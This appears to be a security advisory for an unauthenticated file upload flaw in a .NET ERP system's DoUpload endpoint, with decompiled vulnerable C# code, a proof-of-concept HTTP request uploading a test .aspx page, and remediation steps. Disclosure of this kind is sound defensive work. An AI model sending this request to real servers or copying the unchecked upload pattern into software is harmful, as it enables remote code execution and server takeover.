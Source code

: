 ![image-20250203111309744](./assets/image-20250203111309744.png)

![image-20250203111352117](./assets/image-20250203111352117.png)

# Vulnerability Report

## Title: Unauthenticated File Upload Leading to Remote Code Execution (RCE)

### Summary:
A critical security vulnerability has been identified in the file upload functionality of the .NET system. This vulnerability allows unauthenticated users to upload arbitrary files, which can lead to remote code execution (RCE) and potentially grant attackers full control over the server.

### Affected Endpoint:
`/Api/FileUploadApi.ashx?method=DoUpload`

### Vulnerability Type:
Unauthenticated File Upload Leading to Remote Code Execution (RCE)

### Vulnerable Code:
Below is the vulnerable code snippet responsible for handling file uploads:

```csharp
[RequestCheck(CheckLogin = false, Name = "app文件上传", CheckParams = "username,userid,menucode,key,value,filename,filesize")]
public void DoUpload()
{
  string str1 = this.bImpl.Request("filename");
  long int64 = this.bImpl.Request("filesize").ToInt64();
  string str2 = this.bImpl.Request("value");
  string str3 = this.bImpl.Request("fileNo");
  Hashtable hashtable = new Hashtable();
  hashtable.Add((object) "username", (object) this.user.UserName);
  hashtable.Add((object) "userid", (object) this.user.UserId);
  hashtable.Add((object) "key", (object) this.bImpl.Request("key"));
  hashtable.Add((object) "value", (object) str2);
  hashtable.Add((object) "filename", (object) str1);
  hashtable.Add((object) "filesize", (object) int64);
  hashtable.Add((object) "fileNo", (object) str3);
  hashtable.Add((object) "menucode", (object) this.ModuleId);
  Hashtable fInfos = hashtable;
  Stream inputStream = HttpContext.Current.Request.InputStream;
  byte[] buffer = new byte[inputStream.Length];
  inputStream.Read(buffer, 0, buffer.Length);
  if (!this.Fimpl.Save(buffer, fInfos).success)
    return;
  this.response = this.Fimpl.AddFileInfo(fInfos);
}


public BaseResponse Save(byte[] buffer, Hashtable fInfos)
{
  fInfos[(object) "username"]?.ToString();
  fInfos[(object) "userid"]?.ToString();
  string str1 = fInfos[(object) "menucode"]?.ToString() ?? "";
  fInfos[(object) "key"]?.ToString();
  string str2 = fInfos[(object) "value"]?.ToString() ?? "";
  string tempFileName = this.toTempFileName(fInfos[(object) "filename"]?.ToString() ?? "");
  fInfos[(object) "filesize"]?.ToString();
  string str3 = fInfos[(object) "fileNo"]?.ToString() ?? "";
  int int32 = fInfos[(object) "position"].ToInt32();
  return FileUtil.SaveFile(buffer, (long) int32, 0L, string.Format(Lskj.WebErp.Core.Util.WebConfigUtil.PubModelAccFilePath, (object) str1, (object) str2, (object) str3), tempFileName, this.AppDomain, true);
}
```

### Proof of Concept (PoC):
The following HTTP request demonstrates how an unauthenticated user can exploit this vulnerability to upload a malicious file.

```http
POST /Api/FileUploadApi.ashx?method=DoUpload HTTP/1.1
Host: [TARGET_HOST]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/jpeg

<% @ Page Language="C#" %>
<% Response.Write("RCE Test"); %>
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact:
An attacker can exploit this vulnerability to upload a malicious ASP.NET script file (`.aspx`) to the server. This script can then be executed by accessing it via a web browser, leading to remote code execution and allowing the attacker to execute arbitrary commands on the server, potentially leading to full system compromise.

### Recommendation:
1. **Authentication Check**: Ensure that file upload functionality requires proper authentication. The `CheckLogin` attribute should be set to `true`.
2. **File Type Validation**: Implement strict file type validation to ensure only allowed file types can be uploaded.
3. **File Content Validation**: Validate the contents of the uploaded file to prevent the upload of malicious scripts.
4. **File Storage Location**: Store uploaded files outside the web root directory to prevent direct access and execution.
5. **Regular Security Audits**: Conduct regular security audits and code reviews to identify and mitigate potential vulnerabilities.

### Conclusion:
This critical vulnerability should be addressed immediately to prevent potential exploitation. By implementing the recommended security measures, the risk of unauthorized file uploads and remote code execution can be significantly reduced.

### References:
- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [Microsoft Secure Coding Guidelines](https://docs.microsoft.com/en-us/dotnet/standard/security/secure-coding-guidelines)